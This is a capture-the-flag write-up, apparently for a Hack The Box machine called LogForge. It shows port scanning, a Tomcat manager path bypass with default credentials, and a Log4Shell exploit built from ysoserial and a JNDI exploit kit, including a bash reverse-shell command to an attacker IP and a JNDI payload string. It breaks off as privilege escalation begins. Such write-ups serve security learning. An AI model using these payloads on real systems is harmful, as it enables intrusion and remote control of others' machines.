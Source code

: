 # LogForge (WIP)

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.153
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 02:50 EDT
Nmap scan report for 10.129.96.153
Host is up (0.017s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   open     ssh
80/tcp   open     http
8080/tcp filtered http-proxy
```

This is a UHC Box, so it should be somewhat fun.

### Web Enum --> Proxy Bypass

Port 80 just shows a simple image:

<figure><img src="../../../.gitbook/assets/image (639).png" alt=""><figcaption></figcaption></figure>

We can do a quick `gobuster` scan to find out more:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.96.153/ -x php,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.153/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/05/11 02:51:43 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> /images/]
/admin                (Status: 403) [Size: 278]
/manager              (Status: 403) [Size: 278]
```

The `/manager` endpoint is like Tomcat, and it does not request credentials for us to enter. We can do the bypass exploit by accessing `test/..;/manager`.

<figure><img src="../../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

We can login with `tomcat:tomcat` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>

### WAR Fail

I tried to upload stuff using the standard WAR reverse shell, but it doesn't work. We would get an error message like this:

<figure><img src="../../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>

The box name and the recent release of Log4j was a hint by the creator to try and make `log4shell` work.

### Log4j RCE

I'm following Hacktricks page on Log4Shell to execute these. We have to use these repositories to gain a shell:

{% embed url="https://github.com/pimps/JNDI-Exploit-Kit.git" %}

{% embed url="https://github.com/pimps/ysoserial-modified.git" %}

After downloading these, we have to run these commands:

{% code overflow="wrap" %}
```bash
$ java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' > shell.ser
$ java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.13:1389 -P shell.ser
```
{% endcode %}

Then, within the Tomcat interface, we just need to send this string in the XML configuration:

```
${jndi:ldap://10.10.14.13:1389/u3rmld}
```

Afterwards, we would get a shell as `tomcat`.&#x20;

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.96.153] 49842
bash: cannot set terminal process group (776): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ 
```

From here, we can start enumerating for escalation vectors.

## Privilege Escalation

### FTP Env Leak

I noticed that FTP was open and accessible from inside the machine. Log4j can also be used to leak environment variables, so we can attempt that.&#x20;

```
tomcat@LogForge:/var/lib/tomcat9$ netstat -tulpn
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        1      0 127.0.0.1:44690         127.0.0.1:8080          CLOSE_WAIT  -                   
tcp        0      2 10.10.11.138:49842      10.10.14.12:1337        ESTABLISHED 9577/bash           
tcp        1      0 127.0.0.1:44698         127.0.0.1:8080          CLOSE_WAIT  -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      776/java            
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

If we analyse the process, we can see FTP is running some kind of JAR file:

```
tomcat@LogForge:/var/lib/tomcat9$ ps -ef | grep -i ftp
    993 ?        Sl     0:26 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```

Let's `ftp` in on the local machine.&#x20;
